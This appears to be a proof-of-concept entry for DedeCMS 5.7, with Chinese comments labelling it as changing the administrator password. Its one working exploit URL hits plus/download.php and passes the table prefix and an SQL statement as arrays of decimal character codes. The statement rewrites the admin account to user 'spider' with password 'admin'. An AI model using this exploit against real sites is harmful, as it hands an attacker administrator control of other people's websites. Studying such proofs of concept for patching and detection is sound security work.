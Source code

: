 ### POC
##### 修改管员密码:http://localhost/dedecms5.7/plus/download.php?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=97&arrs2[]=100&arrs2[]=109&arrs2[]=105&arrs2[]=110&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=96&arrs2[]=117&arrs2[]=115&arrs2[]=101&arrs2[]=114&arrs2[]=105&arrs2[]=100&arrs2[]=96&arrs2[]=61&arrs2[]=39&arrs2[]=115&arrs2[]=112&arrs2[]=105&arrs2[]=100&arrs2[]=101&arrs2[]=114&arrs2[]=39&arrs2[]=44&arrs2[]=32&arrs2[]=96&arrs2[]=112&arrs2[]=119&arrs2[]=100&arrs2[]=96&arrs2[]=61&arrs2[]=39&arrs2[]=102&arrs2[]=50&arrs2[]=57&arrs2[]=55&arrs2[]=97&arrs2[]=53&arrs2[]=55&arrs2[]=97&arrs2[]=53&arrs2[]=97&arrs2[]=55&arrs2[]=52&arrs2[]=51&arrs2[]=56&arrs2[]=57&arrs2[]=52&arrs2[]=97&arrs2[]=48&arrs2[]=101&arrs2[]=52&arrs2[]=39&arrs2[]=32&arrs2[]=119&arrs2[]=104&arrs2[]=101&arrs2[]=114&arrs2[]=101&arrs2[]=32&arrs2[]=105&arrs2[]=100&arrs2[]=61&arrs2[]=49&arrs2[]=32&arrs2[]=35     //登录用户spider密码admin 